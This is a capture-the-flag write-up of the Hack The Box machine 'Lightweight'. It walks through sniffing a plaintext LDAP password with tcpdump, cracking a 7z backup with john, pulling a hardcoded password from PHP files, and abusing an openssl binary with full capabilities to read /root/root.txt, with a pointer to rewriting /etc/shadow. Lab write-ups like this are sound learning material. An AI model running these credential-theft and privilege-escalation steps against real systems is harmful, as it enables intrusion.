


# HTB Lightweight

I enjoyed Lightweight, as it was kind of a different box from what I've come across, especially in the user part.

Portscan:
Nmap showed three open ports, i.e. ssh, http and ldap
```
Nmap scan report for 10.10.10.119
Host is up (0.61s latency).
Not shown: 997 filtered ports
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 19:97:59:9a:15:fd:d2:ac:bd:84:73:c4:29:e9:2b:73 (RSA)
|   256 88:58:a1:cf:38:cd:2e:15:1d:2c:7f:72:06:a3:57:67 (ECDSA)
|_  256 31:6c:c1:eb:3b:28:0f:ad:d5:79:72:8f:f5:b5:49:db (EdDSA)
80/tcp  open  http    Apache httpd 2.4.6 ((CentOS) OpenSSL/1.0.2k-fips mod_fcgid/2.3.9 PHP/5.4.16)
|_http-server-header: Apache/2.4.6 (CentOS) OpenSSL/1.0.2k-fips mod_fcgid/2.3.9 PHP/5.4.16
|_http-title: Lightweight slider evaluation page - slendr
389/tcp open  ldap    OpenLDAP 2.2.X - 2.3.X
| ssl-cert: Subject: commonName=lightweight.htb
| Subject Alternative Name: DNS:lightweight.htb, DNS:localhost, DNS:localhost.localdomain
| Not valid before: 2018-06-09T13:32:51
|_Not valid after:  2019-06-09T13:32:51
|_ssl-date: TLS randomness does not represent time
```

On port 80:



The user page prompt me to login via ssh with my IP as username and password. 

Enumerating the LDAP server didn't bring any useful info. After spending some time thinking about the next move, some people over at [0x00sec](https://0x00sec.org/) suggested capturing packets from the lo interface with *tcpdump*.
After "listening" to the box by running ``tcpdump -i lo -A -w inter.pcap`` I started browsing the website. The status.php was taking quite a time to load, so that was suspicious.

After browsing the website enough, I moved the pcap file to /tmp and transfered it to my local computer with ``scp 10.10.14.200@10.10.10.119:/tmp/inter.pcap .``

Opening the file with wireshark, we find that there is an ldap "bind request" from ldapuser2 with [simple authentication](https://ldapwiki.com/wiki/Simple%20Authentication), meaning that the ldapuser2's password was in plain sight.



By using it as password, I used ``su`` to ldapuser2 and got the user flag.

```
su ldapuser2
Password: 
[ldapuser2@lightweight ~]$ ls
backup.7z  OpenLDAP-Admin-Guide.pdf  OpenLdap.pdf  user.txt
[ldapuser2@lightweight ~]$  cat user.txt
8a866d3b*******************
```

In ldapuser2's home directory we find a backup.7z file. I transferred it to my local machine like the pcap file only to find out that it was password protected. There I used a [script](https://gist.github.com/bcoles/421cc413d07cd9ba7855) I found, which uses john to brute-force the 7z file. The password was ```delete```

There I found some php files, which are the same from the website, only with a twist:
after running ``cat * | grep user`` in a desparate move for something valueable, I found that the user is ldapuser1, 

```
vict0ni@vict0niLaptop:~/Desktop/CTF/HTB/Lightweight/backup$ cat * | grep username
$username = 'ldapuser1';
```

so the next logical thing to do is to run ``cat * | grep password``, where we find the ldapuser1's password

```
vict0ni@vic0niLaptop:~/Desktop/CTF/HTB/Lightweight/backup$ cat * | grep password
$password = 'f3ca9d298a553da117442deeb6fa932d';
if ($bind=ldap_bind($ds, $dn, $password)) {
...
...
```

Escalating to ldapuser1, like previously with ldapuser2.

```
[ldapuser2@lightweight ~]$ su ldapuser1
Password: 
[ldapuser1@lightweight ldapuser2]$ whoami
ldapuser1
```

There, root got a bit spoiled to me, because some people where giving away clues inside the box. Specific, one broadcasted the message "openssl is the key". Kind of a bummer but finding two binaries on the home directory was meaning that the way for root had to do with one of them. So the spoil just saved me a rabbithole. But, please, **do not** spoil.

I enumerated the openssl binary I had in front of me. After examing it's capabilities with ``getcap -r openssl`` the output was ``openssl =ep``, which means that it had access to anything.

So to get the root.txt file, one must grab it with openssl, encrypt it and paste it in a directory, then decrypt it to read it, like ``/home/ldapuser1/openssl enc -base64 -in /root/root.txt -out enc_root`` and then ``base64 -d enc_root``.
And there is the *sweet* root flag :D

```
[ldapuser1@lightweight ~]$ /home/ldapuser1/openssl enc -base64 -in /root/root.txt -out enc_root
[ldapuser1@lightweight ~]$ base64 -d enc_root
f1d4e309c*******************
```

PS: "But if you don't get a shell and can't run code, is a system really owned? :thinking:".
Searching for some way to get a root shell I came across [this](https://medium.com/@int0x33/day-44-linux-capabilities-privilege-escalation-via-openssl-with-selinux-enabled-and-enforced-74d2bec02099) article, where one can rewrite the /etc/shadow file.
